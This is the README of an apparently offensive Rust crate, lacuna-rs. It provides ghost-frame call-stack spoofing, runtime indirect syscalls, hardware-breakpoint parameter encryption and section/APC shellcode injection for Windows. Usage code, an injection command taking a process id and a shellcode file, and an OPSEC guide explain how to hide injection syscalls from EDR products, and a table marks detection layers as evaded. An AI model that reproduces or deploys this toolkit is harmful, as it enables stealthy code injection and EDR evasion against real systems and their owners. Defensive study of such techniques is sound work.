

# lacuna-rs

**Ghost-frame call-stack spoofing + runtime indirect syscalls for Windows x64 — ported to Rust.**

Ported from [LACUNA Chain](https://github.com/MazX0p/LACUNA-Chain) (`lacuna_chain.c`) by Mohamed Alzhrani (0xmaz).

`lacuna-rs` is a reusable Rust crate that provides the same primitives as the original C TTP, structured so it can be dropped into any Rust project — like `wsyscall-rs` or `syscalls-rs`, but with **runtime SSN resolution**, **per-function `syscall;ret` targeting**, and **ghost-frame stack spoofing**.

---

## Critical: Frame-Pointer Requirement

> **The `stack-spoof` feature will silently fail if the consuming crate is not compiled with frame pointers.**

The stack-stomping primitives in `chain.rs` locate the caller's return-address slot via `mov rbp, {x}` inline asm. This requires the RBP chain to be intact. Rust (and most release-mode compilers) omit frame pointers by default.

**`build.rs` sets `force-frame-pointers=yes` for this crate's own codegen, but Cargo cannot propagate compiler flags to downstream crates.** You must add this to your own project:

```toml
# .cargo/config.toml  (in YOUR crate, not in lacuna-rs)
[build]
rustflags = ["-C", "force-frame-pointers=yes"]
```

Without this, `stomp_plant()` will read garbage from RBP and either no-op (best case) or corrupt the stack (worst case). The crate has no way to detect at runtime whether frame pointers are enabled — it will simply not work.

If you only need the scanning, SSN resolution, or injection primitives (without stack spoofing), you can omit the `stack-spoof` feature and this requirement does not apply.

---

## What it does

| Primitive | C function | Rust module |
|---|---|---|
| PE section + export parsing | `pe_section()`, `pe_export()` | `pe` |
| `.pdata` ghost-region scanning | `scan_ghosts()`, `best_ghost()` | `scan` |
| Ghost-gadget discovery (`jmp [rbx]`) | `scan_ghost_gadgets()` | `scan` |
| `win32u` NOP-gap finder | `win32u_nop_gap()` | `scan` |
| BYOUD-MF anchor finder | `find_mf_target()` | `scan` |
| SSN resolution (Hell's Gate / Halo's Gate) | `resolve_ssn()` | `nt` |
| Per-function `syscall;ret` locator | `find_func_syscall()` | `nt` |
| JIT indirect-syscall stub emission | `alloc_stub()` | `stub` |
| Ghost-gadget stub redirect | (in `alloc_stub()`) | `stub` |
| VEH + hardware-breakpoint param encryption | `param_encrypt_veh()`, `pcrypt_arm()` | `veh` |
| Chain-guard VEH | `chain_veh()` | `veh` |
| LACUNA chain construction | `build_chain()` | `chain` |
| Stack stomp (BYOUD-RT) | `stomp_plant()`, `stomp_restore()` | `chain` |
| Chain walker (verify) | `lacuna_walk_chain()` | `chain` |
| Section-based APC injection | `do_inject_sapc()` | `inject` |

---

## Feature flags

```toml
[dependencies]
lacuna-rs = { version = "0.1", features = ["inject", "stack-spoof", "veh"] }
```

| Feature | Description | Requires frame pointers? |
|---|---|---|
| `syscalls` (default) | SSN resolution + JIT stub emission | No |
| `inject` (default) | Section-based APC injection (`inject::inject_sapc`) | No |
| `veh` | VEH + hardware-breakpoint parameter encryption | No |
| `stack-spoof` | LACUNA ghost-frame chain + stack stomp | **Yes** |
| `no-std` | `no_std` mode (experimental) | No |

When no features are enabled, only the scanning/PE/NT layers are available.

---

## Quick start

### Scan for ghost regions

```sh
cargo run --example scan
```

### Build + verify the ghost-frame chain

```sh
cargo run --example verify --features stack-spoof
```

### Inject shellcode via section + APC


Injection Example with real implant - C2 was offline but the Shellcode executed

```sh
cargo run --example inject --features inject,stack-spoof,veh -- <pid> <sc.bin>
```

Add `--verbose` to enable VEH diagnostic output (stack dumps, register prints):

```sh
cargo run --example inject --features inject,stack-spoof,veh -- <pid> <sc.bin> --verbose
```

#### Thread scoring algorithm

Instead of queueing APCs to every thread in the target process (which can crash
the process when too many threads are alerted simultaneously), `inject_sapc`
uses a scoring algorithm to select the best `MAX_APC_THREADS` (5) candidates:

- **Cycle time** — `NtQueryInformationThread(ThreadCycleTime)` — primary activity indicator
- **CPU time** — `NtQueryInformationThread(ThreadTimes)` — kernel + user time
- **Suspend count** — `NtQueryInformationThread(ThreadSuspendCount)` — non-suspended threads get +300 bonus; suspended threads get -150 per suspend count
- **Priority** — `NtQueryInformationThread(ThreadBasicInformation)` — threads with priority 8-10 get +150 bonus; out-of-range priorities get -100 penalty

Completely idle threads (zero cycles and zero CPU time) are skipped entirely.
The remaining candidates are sorted by score (highest first, tie-break on cycles)
and truncated to the top 5.

---

## Using as a library

### Basic: scan + SSN resolution

```rust
use lacuna::{scan, nt, win::get_module};

let ntdll = get_module(b"ntdll.dll\0");

// Scan for ghost regions
let mut ghosts = [scan::Ghost::default(); 512];
let n = scan::scan_ghosts(ntdll, &[b"NtAllocateVirtualMemory\0"], &mut ghosts);
println!("{} ghost regions in ntdll", n);

// Resolve SSN + syscall;ret for a specific function
let (ssn, syscall_ret) = nt::resolve(ntdll, b"NtOpenProcess\0");
println!("NtOpenProcess: ssn={:#x}, syscall;ret={:#x}", ssn, syscall_ret);
```

### Emit an indirect syscall stub for any NT API

```rust
use lacuna::{nt, stub, win::{get_module, HMODULE}};

let ntdll: HMODULE = get_module(b"ntdll.dll\0");

// Resolve SSN + the function's own syscall;ret address
let (ssn, syscall_ret) = nt::resolve(ntdll, b"NtAllocateVirtualMemory\0");
assert!(ssn != nt::SSN_INVALID && syscall_ret != 0);

// JIT-emit a stub: mov r10,rcx; mov eax,SSN; jmp [syscall;ret]
// (or jmp [ghost_gadget] -> JMP [RBX] -> syscall;ret if build_chain was called)
let stub = stub::make_stub(ssn, syscall_ret).expect("stub alloc failed");

// Cast to the matching function pointer type and call
let alloc_vm: unsafe extern "system" fn(
    win::HANDLE, *mut win::PVOID, usize, *mut usize, win::ULONG, win::ULONG,
) -> win::NTSTATUS = unsafe { core::mem::transmute(stub.as_fn()) };
```

### Build the ghost-frame chain + register VEH

```rust
// Scan ntdll/kernelbase/wow64/win32u for ghost regions and construct
// the six-layer fake call stack. Sets G_GHOST_GADGET so stubs route
// through JMP [RBX] in a signed DLL.
lacuna::chain::build_chain();

// Register VEH handlers (param encryption + chain guard)
let _veh = lacuna::veh::VehGuard::register().expect("VEH registration failed");

// Optional: enable verbose diagnostics at runtime
lacuna::veh::set_verbose(true);
```

### Wrap a sensitive syscall with stack spoof + param encryption

```rust
use lacuna::win::HANDLE;
use core::ptr;

let mut h_proc: HANDLE = ptr::null_mut();
let key: u64 = 0xCAFE_1337;

// Plant ghost frames (replaces return addresses with signed-DLL ghosts)
lacuna::chain::stomp_plant();

// Arm DR0 on the syscall;ret -- VEH will XOR-decrypt params at the boundary
lacuna::veh::pcrypt_arm(key, syscall_ret, true);

// Call through the indirect stub -- RIP lands inside ntdll at kernel entry
let _status = unsafe { open_proc(/* XOR-encrypted params */) };

// Always disarm before any non-protected call
lacuna::veh::pcrypt_disarm();
lacuna::chain::stomp_restore();
```

---

## OPSEC: What to hide behind ghost frames

Not every API call needs the full LACUNA treatment. The key principle is: **hide the calls that an EDR would correlate as injection or post-exploitation activity**.

### Must be behind indirect syscalls + ghost frames + param encryption

These are the "crown jewel" NT syscalls that EDRs hook and correlate:

| Call | Why it's sensitive |
|---|---|
| `NtOpenProcess` | Opens a handle to another process -- first step of injection |
| `NtCreateSection` + `NtMapViewOfSection` (remote) | Section-based injection signature |
| `NtWriteVirtualMemory` | Cross-process write -- classic injection indicator |
| `NtCreateThreadEx` | Remote thread creation -- highest-signal injection primitive |
| `NtQueueApcThread` | APC injection -- high-signal |
| `NtProtectVirtualMemory` | RWX permission changes -- shellcode staging indicator |
| `NtAllocateVirtualMemory` (remote) | Remote allocation -- injection prelude |
| `NtSetInformationThread` | Thread hiding (`HideFromDebugger`) -- evasion indicator |

For each of these:
1. Resolve with `nt::resolve(ntdll, b"NtXxx\0")`
2. Emit a stub with `stub::make_stub(ssn, syscall_ret)`
3. XOR-encrypt sensitive parameters with `veh::pcrypt_arm(key, syscall_ret, true)`
4. Wrap the call between `chain::stomp_plant()` and `chain::stomp_restore()`

### Can be direct (no ghost frames needed)

| Call | Why it's safe |
|---|---|
| `NtQueryInformationThread` | Query-only, rarely hooked, no cross-process write |
| `NtDelayExecution` | Sleep -- benign, used by every application |
| `NtClose` | Handle close -- benign, extremely common |
| `GetModuleHandleA` / `GetProcAddress` | Module resolution -- not a syscall, not hookable by EDR userland hooks |
| `CreateToolhelp32Snapshot` / `Thread32First` / `Thread32Next` | Thread enumeration -- kernel32, not ntdll syscall |
| `OpenThread` / `CloseHandle` | Standard handle ops -- kernel32 |
| `GetThreadContext` / `SetThreadContext` | Needed for DR0 -- kernel32, self-process only |

### Key principles

1. **Resolve** any NT syscall with `nt::resolve(ntdll, b"NtXxx\0")` -- returns `(SSN, syscall_ret_VA)`.
2. **Emit** a JIT stub with `stub::make_stub(ssn, syscall_ret)` -- returns a callable function pointer.
3. **Cast** the stub to the appropriate `extern "system" fn(...)` type via `core::mem::transmute`.
4. **(For sensitive calls only)** Build the ghost-frame chain with `chain::build_chain()` and call `chain::stomp_plant()` / `chain::stomp_restore()` around the call.
5. **(For sensitive calls only)** Arm parameter encryption with `veh::pcrypt_arm(key, syscall_ret, true)` before the call, and `veh::pcrypt_disarm()` after.
6. **Always disarm** the VEH before making non-protected calls -- a stray DR0 hit on an unarmed syscall will crash.
7. **All output strings** must be wrapped in `lc!()` -- the crate enforces this, and the VEH diagnostics are gated behind `set_verbose(true)` which defaults to off.

The stub handles the `mov r10, rcx` / `mov eax, SSN` / `jmp [syscall;ret]` sequence automatically. If a ghost gadget was registered, the stub routes through `JMP [RBX]` for dual-use execution redirect + zero-artifact bridge frame.

---

## Writeup Coverage Verification

All 9 key contributions from the [LACUNA Chain writeup](https://0xmaz.me/posts/LACUNA-Chain-Ghost-Frames-defeats-All-EDR-layers-of-call-stack-based-detection/) are represented in the code:

| # | Writeup Concept | Code Location | Description |
|---|---|---|---|
| 1 | **BYOUD-Gap** (zero `.pdata` modification) | `chain.rs` -- ghost frame chain construction | Exploits gaps between `RUNTIME_FUNCTION` entries; unwinder treats them as leaf frames (RSP += 8) |
| 2 | **ETW-Ti APC Window Attack** | `inject.rs` -- `NtDelayExecution` alertable drain | Controls when the ETW-Ti APC stack snapshot fires by manipulating thread alertable state |
| 3 | **Parameter Encryption in BYOUD Context** | `veh.rs` -- `pcrypt_arm()`, `param_encrypt_veh()` | XOR-encrypts syscall params at staging; decrypts inside a hardware-breakpoint VEH at the `syscall` instruction |
| 4 | **Win32u NOP Gap Chain + Ghost Gadget** | `scan.rs` -- `win32u_nop_gap()`, `scan_ghost_gadgets()` | 1,242 NOP gaps in `win32u.dll` provide whitelisted leaf frames; `JMP [RBX]` ghost gadget at `ntdll+0xFC47B` |
| 5 | **kernelbase Semantic Ghost Proximity** | `chain.rs` -- `L2_kbase` layer near `VirtualProtect` | 238-byte ghost ending at `VirtualProtect`'s entry point -- indistinguishable from a real VP return site |
| 6 | **BYOUD-MF (Machine Frame RSP Teleport)** | `chain.rs` -- `MachFrame` struct, `scan.rs` -- `find_mf_target()` | Exploits `UWOP_PUSH_MACHFRAME` (opcode 10) in `KiUser*` dispatchers for arbitrary RSP teleport in a single frame |
| 7 | **BYOUD-RT (Runtime RSP Calculation)** | `chain.rs` -- `teb_stack_base()`, `teb_stack_limit()` | Reads `TEB.StackBase` (GS:[0x08]) at call time to compute exact frame distance -- no pre-calibration needed |
| 8 | **wow64.dll Ghost Proximity** | `chain.rs` -- `L1_wow64` layer, `scan.rs` -- targets `Wow64PrepareForException` | 91-byte ghost ending at `Wow64PrepareForException` entry -- fourth semantic layer for the chain |
| 9 | **Six-Layer LACUNA Chain** | `chain.rs` -- `LacunaStack` struct (L1-L5 + MachFrame) | Full chain: `KiUserExceptionDispatcher` -> wow64 -> kernelbase -> ntdll -> win32u -> `RtlUserThreadStart` |

### Detection surface coverage

| Detection Layer | Status | Implementation |
|---|---|---|
| Module-of-origin check | **EVADED** | All frames in ntdll / kernelbase / wow64 / win32u |
| Unwind walk correctness | **EVADED** | All lacuna frames are leaf -> valid RSP+8 |
| `.pdata` forensic scan | **EVADED** | Zero modification; gaps are pre-existing |
| CET shadow stack | **EVADED** | Pure leaf chain; shadow stack not consulted |
| Semantic frame analysis | **EVADED** | WoW64 exception + VirtualProtect adjacency |
| Win32u rule exemption | **EVADED** | Layer 4 explicitly excluded by all rules |
| ETW-Ti STACKWALK | **EVADED** | APC window attack controls snapshot timing |
| Parameter inspection | **EVADED** | HW breakpoint VEH decryption |
| Kernel callbacks | **PARTIAL** | Handle operations still fire `ObRegisterCallbacks` |

---

## Why not just use `syscalls-rs`?

`syscalls-rs` and `wsyscall-rs` generate a **build-time SSN table** from a specific Windows build's ntdll. If the target machine runs a different build, the SSNs are wrong and syscalls fail (or trip EDR heuristics).

`lacuna-rs` resolves SSNs **at runtime** by reading ntdll's stubs directly, and targets the **function's own `syscall;ret` instruction** so RIP is inside ntdll at kernel entry -- defeating the EDR "SSN mismatch" and "indirect syscall from unbacked memory" heuristics.

Additionally, `lacuna-rs` provides the **ghost-frame stack spoofing** chain that `syscalls-rs` does not.

---

## Build requirements

- **Target:** `x86_64-pc-windows-msvc` (or `x86_64-pc-windows-gnu`)
- **Rust edition:** 2021
- **Dependencies:** `litcrypt2` (compile-time string obfuscation)

### Frame-pointer setup (for `stack-spoof` only)

The `stack-spoof` feature requires frame pointers. `build.rs` sets `force-frame-pointers=yes` automatically for this crate, but **consuming crates** must also set it in their `.cargo/config.toml`:

```toml
# .cargo/config.toml (in the consuming crate)
[build]
rustflags = ["-C", "force-frame-pointers=yes"]
```

### litcrypt2 string obfuscation

All string literals in the crate and examples are wrapped in `lc!()` macros, which encrypt them at compile time and decrypt at runtime. The encryption key is read from the `LITCRYPT_ENCRYPT_KEY` environment variable; if unset, litcrypt2 auto-generates a random key.

To pin a key for reproducible builds:

```sh
set LITCRYPT_ENCRYPT_KEY=your-secret-key
cargo build
```

---

## Architecture

```
lacuna-rs/
├── Cargo.toml
├── build.rs              # Sets force-frame-pointers for stack-spoof
├── src/
│   ├── lib.rs            # Crate root + re-exports + scan_all() + litcrypt2 setup
│   ├── win.rs            # Win32/NT FFI bindings (no_std-compatible)
│   ├── pe.rs             # PE section + export parsing
│   ├── scan.rs           # .pdata ghost-region + gadget scanning
│   ├── nt.rs             # SSN resolution + syscall;ret targeting
│   ├── stub.rs           # JIT indirect-syscall stub emission
│   ├── veh.rs            # VEH + hardware-breakpoint param encryption
│   ├── chain.rs          # LACUNA ghost-frame chain + stomp
│   └── inject.rs         # Section-based APC injection
├── examples/
│   ├── scan.rs           # lacuna.exe scan
│   ├── verify.rs         # lacuna.exe verify
│   └── inject.rs         # lacuna.exe inject <pid> <sc.bin>
└── .cargo/
    └── config.toml       # force-frame-pointers + windows-msvc target
```

---

## Credits

- **Original research & C implementation:** Mohamed Alzhrani (0xmaz) -- [LACUNA Chain](https://github.com/MazX0p/LACUNA-Chain)
- **Technique:** *Ghost Frames: Forging Plausible Call Stacks from .pdata Lacunae*
- **Find Best APC Thread Logic:** Adapted from [FrankensteinAPCInjection](https://github.com/S12cybersecurity/FrankensteinAPCInjection/blob/main/Frankenstein/FrankensteinAPCInjection/FindThread.cpp) by [S12cybersecurity](https://github.com/S12cybersecurity)
- **String obfuscation:** [litcrypt2](https://crates.io/crates/litcrypt2) v0.1.3

## Full Disclosure
This project was activly assisted by an AI Chatbot. I had the chance to test a newer, very capable Open Source Model (GLM-5.2 by Z.ai (Zhipu AI)) and wanted to give it a challenging task.
Lessons learned: It worked well if the human knows what results shall look like. If not... only crap

## License

MIT